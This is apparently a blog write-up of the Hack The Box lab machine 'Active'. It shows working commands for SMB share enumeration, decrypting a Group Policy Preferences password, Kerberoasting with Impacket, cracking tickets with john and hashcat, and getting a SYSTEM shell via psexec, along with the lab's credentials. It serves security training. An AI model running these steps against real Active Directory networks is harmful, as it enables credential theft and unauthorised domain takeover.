 ```yaml
---
layout: post
title:  "HTB: Active"
date:   2023-10-04 09:19:20 +0700
tags: [htb,pentesting,ctf]
categories: jekyll update
usemathjax: true
---
```


> ## **Overview**

Active was an example of an easy box that still provided a lot of opportunity to learn. The box was centered around common vulnerabilities associated with Active Directory. There’s a good chance to practice SMB enumeration. It also gives the opportunity to use Kerberoasting against a Windows Domain, which, if you’re not a pentester, you may not have had the chance to do before.

> ## **Enumeration**

### **Port Scan Results**

| IP Address | Ports Open |
| --- | --- |
| 10.10.10.100 | TCP: 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5722, 9389
|              | UDP: 123, 137 

### **SMB Enumeration - I**

Since this is a Windows host, Enumerating any readable shares can be really useful.

```bash
smbmap -H 10.10.10.100
```

![https://media.discordapp.net/attachments/928373179003600907/1159031050228486154/image.png?ex=651e6748&is=651d15c8&hm=e38254578ebddf83f9564d8a9fd5148a741779776cdbf1cf6dc26490db89aa34&=&width=1144&height=388](https://media.discordapp.net/attachments/928373179003600907/1159031050228486154/image.png?ex=651e6748&is=651d15c8&hm=e38254578ebddf83f9564d8a9fd5148a741779776cdbf1cf6dc26490db89aa34&=&width=1144&height=388)

And we see that we can only access the share *Replication.*

Connecting to the share using **smbclient**

```bash
smbclient //10.10.10.100/Replication
```

![https://media.discordapp.net/attachments/928373179003600907/1159031577737703484/image.png?ex=651e67c5&is=651d1645&hm=c0cd941f3f2ebe0097a0f255d86bf23717c79ba5ca3a814b1b475b22fccee6d5&=&width=1143&height=199](https://media.discordapp.net/attachments/928373179003600907/1159031577737703484/image.png?ex=651e67c5&is=651d1645&hm=c0cd941f3f2ebe0097a0f255d86bf23717c79ba5ca3a814b1b475b22fccee6d5&=&width=1143&height=199)

Once we gain access to the share, we can locate a file named Groups.xml within the directory path 

```bash
**\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\**
```

Upon examining this file, we will discover both a username and an encrypted password.

![https://media.discordapp.net/attachments/928373179003600907/1159035007248126012/4.png?ex=651e6af7&is=651d1977&hm=f5d23c8d8aa4d0c46df8361defd46598f4430774427415844bcc08b3896eb970&=&width=1260&height=150](https://media.discordapp.net/attachments/928373179003600907/1159035007248126012/4.png?ex=651e6af7&is=651d1977&hm=f5d23c8d8aa4d0c46df8361defd46598f4430774427415844bcc08b3896eb970&=&width=1260&height=150)

```bash
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

### **GPP Passwords**

Whenever a new Group Policy Preference (GPP) is created, there’s an 
xml file created in the SYSVOL share with that config data, including 
any passwords associated with the GPP. For security, Microsoft AES 
encrypts the password before it’s stored as cpassword. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!

Microsoft issued a patch in 2014 that prevented admins from putting 
passwords into GPP. For more 
details, check out this [AD Security post](https://adsecurity.org/?p=2288).

**Decrypting GPP** 

a tool called "gpp-decrypt" that can be utilized for decrypting GPP (Group Policy Preferences) passwords.

![https://media.discordapp.net/attachments/928373179003600907/1159047076789887016/5.png?ex=651e7635&is=651d24b5&hm=044300dbdde47c3cea475a83a299c7ef7f9e9649141413bcf3a7831549248552&=&width=1836&height=114](https://media.discordapp.net/attachments/928373179003600907/1159047076789887016/5.png?ex=651e7635&is=651d24b5&hm=044300dbdde47c3cea475a83a299c7ef7f9e9649141413bcf3a7831549248552&=&width=1836&height=114)

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

And we got the password **GPPstillStandingStrong2k18**.

### **SMB Enumeration - II**

With a username and password, I can access 3 more shares

There is a Users share that looks interesting

```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.100...
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        C$                                                      NO ACCESS
        IPC$                                                    NO ACCESS
        NETLOGON                                                READ ONLY
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY
        Users                                                   READ ON
```

Connecting to the SMB share using **smbclient**

```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

And that is enough to get user.txt

> ## Initial Access – Kerberoasting

**Vulnerability Explanation:** Kerberoasting is a technique that allows an attacker to steal the KRB_TGS ticket, that is encrypted with RC4, to brute force application services hash to extract its password.

**Vulnerability Fix:** [Consider using Group Managed Service Accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) rather than service accounts with static passwords . [Consider upgrading to an Active Directory Domain or forest level](https://adsecurity.org/?p=3377) which supports advanced Kerberos armoring. More information [here](https://www.lepide.com/blog/how-to-prevent-kerberoasting-attacks/)

**Severity: [High](https://capec.mitre.org/data/definitions/509.html)**

**Steps to reproduce the attack:** Since we already possess credentials, we'll use the "GetUserSPNs.py" script from Impacket. This script will enable us to retrieve a list of service usernames linked to regular user accounts and obtain a ticket that I can attempt to crack.

**Proof of Concept**


```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

It also gives me the ticket, which I can try to brute force decrypt to get the user’s password:

**Cracking the ticket**

With John

```bash
./john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

If youre facing errors, make sure you use the [jumbo version of john](https://github.com/magnumripper/JohnTheRipper).

With Hashcat

```bash
$ hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

And we got the administrator password : **Ticketmaster1968**

> ##  Administrator Access

As we already have admin creds through kerberoasting, we can get the system shell using psexec.py

```bash
psexec.py active.htb/administrator@10.10.10.100
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file dMCaaHzA.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service aYMa on 10.10.10.100.....
[*] Starting service aYMa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

## Have any questions
Do you have any questions? Feel free to reach out to me on [twitter](https://twitter.com/rach1tarora) or on [LinkedIn](https://www.linkedin.com/in/rach1tarora/).